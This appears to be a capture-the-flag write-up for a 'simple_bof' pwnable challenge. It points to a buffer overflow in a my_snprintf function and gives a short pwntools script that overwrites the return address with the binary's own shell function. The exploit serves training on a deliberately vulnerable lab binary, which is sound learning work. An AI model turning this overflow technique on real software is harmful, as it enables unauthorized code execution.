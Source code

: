 # PoC HackingCamp 16th Pwnable simple_bof

## Binary Analysis

![main](main.PNG)

The main function has some input functions and is not vulnerable.

![my_snprintf](my_snprintf.PNG)

But, in `my_snprintf` function, It has `buffer overflow` vuln.

When I exploit, this function will help.

![shell](shell.PNG)

## Solve Code

```python
from pwn import *

# context.log_level = "DEBUG"
context.arch = "amd64"

e = ELF("./simple_bof")
p = process("./simple_bof")

p.sendlineafter(">", "4")
p.sendlineafter("\n", flat("A"*0x98, e.symbols["shell"]))

p.interactive()
```
